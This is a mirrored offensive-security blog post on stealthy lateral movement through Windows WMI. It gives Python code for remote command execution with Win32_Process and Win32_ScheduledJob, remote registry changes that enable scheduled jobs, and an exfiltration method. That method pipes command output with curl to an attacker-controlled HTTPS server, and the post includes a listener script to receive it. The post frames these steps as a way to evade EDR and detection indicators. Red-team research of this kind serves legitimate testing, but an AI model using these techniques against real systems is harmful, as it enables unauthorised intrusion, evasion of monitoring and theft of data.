 ```yaml
---
title: Navigating Stealthy WMI Lateral Movement
updated: 2023-06-26 10:28
---
```


Mirrored from [WKL Security](https://whiteknightlabs.com/2023/06/26/navigating-stealthy-wmi-lateral-movement/)

## Introduction

In this article, we’ll look at a Python script that uses Windows Management Instrumentation (WMI) to remotely control a target computer. The script makes use of COM to communicate with the WMI infrastructure and perform administrative tasks.

Using different classes, we will explore different approaches to execute shell commands and observe how each approach works in the background and how they look in the Event Viewer. All the scripts used in the article are published in our [Github repository](https://github.com/WKL-Sec/wmiexec).

## Win32_Process Class Overview

The `Win32_Process` [WMI class](https://learn.microsoft.com/en-us/windows/win32/wmisdk/retrieving-a-class) represents a process on an operating system. It is the most straightforward way of executing a shell command via WMI.

The script starts by importing the [WMI module](https://pypi.org/project/WMI/), which provides a Python interface for interacting with the WMI service.

A WMI connection is established with the specified target computer, utilizing the provided authentication details (username and password).

```python
c = wmi.WMI(computer=target_computer, user=username, password=password)
```

To execute the command, the script utilizes the `Win32_Process` class provided by WMI. The Create method of this class is called, with the `CommandLine` parameter set to the desired command.

```python
process_id, result = c.Win32_Process.Create(CommandLine="cmd /c whoami")
```

Impacket’s version of [Wmiexec](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) uses this class; however, [several articles](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/) state that the process relationship involving a parent process known as `WMIPRVSE.EXE`. and its child process `CMD.EXE` or `POWERSHELL.EXE` is a red flag. In order to avoid this behavior, we will use another class, which is mentioned below.

If you take a look at the Event Viewer, an Event with ID 4688 will be created. Analyzing this event will reveal the executed command:

![event_4688_showing_the_executed_command](https://whiteknightlabs.com/wp-content/uploads/2023/06/Screenshot-from-2023-06-15-15-30-56.png)

## Win32_ScheduledJob Class Overview

Approaching code execution via ScheduledJob might be a better way, as it is not relying on port 139 and 445 (some antivirus software heavily monitors these ports). Instead, it drops the SMB connection function to use `Win32_ScheduledJob` class to execute commands.

It is worth noting that this class works by default on Windows versions under NT6 (Windows Server 2003 and prior). This is because the following registry should be created:

```
Key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration 
Name: EnableAt 
Type: REG_DWORD
Value: 1
```

Fortunately, WMI provides a class called [StdRegProv](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/regprov/stdregprov) for interacting with the Windows Registry. With this in hand, we can do a variety of things – including retrieval, creation, deletion and modification of keys and values. We can use the following code to create the required registry key:

```python
_ = registry.SetDWORDValue(
                hDefKey=0x80000002, # HKEY_LOCAL_MACHINE
                sSubKeyName=r"SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration",
                sValueName="EnableAt",
                uValue=1
            )
```

After the execution, we are able to see the newly created registry:

![registry_enabledat_is_created](https://whiteknightlabs.com/wp-content/uploads/2023/06/Screenshot-from-2023-06-20-14-57-59.png)

We can now continue with creating the scheduled task. The following script calculates the start time for the scheduled job, which is set to one minute from the current time.

```python
change_date_time = datetime.datetime.now() + datetime.timedelta(minutes=1)
begin_time = change_date_time.strftime('%Y%m%d%H%M%S.000000+100')
```

The script then utilizes the `Win32_ScheduledJob` class to create a scheduled job, specifying the command to execute and the start time.

```python
job_id, result = c.Win32_ScheduledJob.Create(Command=“cmd /c ipconfig”, StartTime=begin_time)
```

## Win32_ScheduledJob Limitations

While this technique might be much better and stealthier, the attacker may need to restart the target’s machine to make the setting effective (apply the changed registry).

Because `Win32_ScheduledJob` is based on the [NetScheduleJobGetInfo](https://learn.microsoft.com/en-us/windows/win32/api/lmat/nf-lmat-netschedulejobgetinfo) Win32 API (which is no longer available for use as of Windows 8), you cannot use this class in conjunction with the Task Scheduler.

## Exfiltrating the Data

WMI has limitations on parsing the command output as there is no Microsoft-supported way to receive the data, so attackers must find a workaround for this issue. The most popular exfiltration technique that most of the open-source projects use are by redirecting the command’s output in a text file on the remote host’s local ADMIN$ share. One great example is the impacket’s [code](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py#L295). 

However, generating a random-named text file on the ADMIN$ share is quite suspicious. A good simple solution would be to pipe the output on an HTTPS server. This way we avoid writing to the disk and we securely transmit the data in an encrypted HTTP server. This can be achieved by executing the following command:

> cmd /Q /c <my command> | curl -X POST -k -H 'Content-Type: text/plain' --data-binary @- https://myhttpserver

A simple Python script is used to create a SSL-supported HTTP server:

```python
import ssl
from http.server import HTTPServer, BaseHTTPRequestHandler

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Decode the received data
        received_data = post_data.decode('utf-8')

        # Process the received data as needed
        print(f'[+] Received data:\n{received_data}')

        # Send a response back to the client
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        response_message = 'Data received successfully'
        self.wfile.write(response_message.encode('utf-8'))

def run_server():
    host = '0.0.0.0'
    port = 8080
    server_address = (host, port)

    # Create an SSL context
    ssl_context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
    ssl_context.load_cert_chain(certfile='server.crt', keyfile='server.key')

    # Create the HTTPS server with the SSL context
    httpd = HTTPServer(server_address, RequestHandler)
    httpd.socket = ssl_context.wrap_socket(httpd.socket, server_side=True)

    print(f'Starting HTTPS server on {host}:{port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

Below you can see the tool in action against a target with a fully-updated Sophos EDR installed:

![command_execution_and_data_exfiltration_in_action](https://whiteknightlabs.com/wp-content/uploads/2023/06/Screencast-from-21.6.23-06-35-40.MD-CEST.mp4)

## Conclusion

`Win32_ScheduledJob` is a better, stealthier way of performing lateral movement to the target; however, modifying the registry does require the target restart the machine. Also the Windows version has to be Windows 8 or lower (according to Microsoft).

On the other hand, `Win32_Process` works out of the box. But, as already discussed on the article, this method leads to IOCs such as `CMD.EXE` being spawned as a child process of `WMIPRVSE.EXE`

All the scripts used in the article are published in our [Github repository](https://github.com/WKL-Sec/wmiexec).

## References

[https://github.com/XiaoliChan/wmiexec-RegOut](https://github.com/XiaoliChan/wmiexec-RegOut)  
[https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-scheduledjob](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-scheduledjob)  
[https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/)  
